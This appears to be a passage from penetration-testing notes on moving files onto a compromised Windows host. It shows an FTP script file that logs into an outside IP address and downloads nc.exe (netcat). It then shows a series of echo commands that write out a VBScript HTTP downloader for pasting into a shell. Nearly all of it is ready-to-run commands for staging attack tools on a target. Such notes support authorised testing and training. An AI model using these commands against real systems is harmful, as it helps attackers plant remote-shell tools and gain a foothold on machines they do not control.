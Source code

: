 #### Non-Interactive FTP Download

Use the default ftp client in Windows and a transfer script file to transfer a file using a non-interactive command:

1. Create a file on the Windows machine with the ftp commands in it:

   ```powershell
   echo open 192.168.119.216 21> ftp.txt
   echo USER rock>> ftp.txt
   echo roll>> ftp.txt
   echo bin >> ftp.txt
   echo GET nc.exe >> ftp.txt
   echo bye >> ftp.txt
   ```
   
2. Run the ftp command using the script file:

   ```bash
   ftp -v -n -s:ftp.txt
   # Options
   -v # Suppress any returned output
   -n # Suppress automatic login
   -s # Script file
   ```

#### Windows Scripting Languages

##### VBScript

Paste these into the shell to build the script:

```powershell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
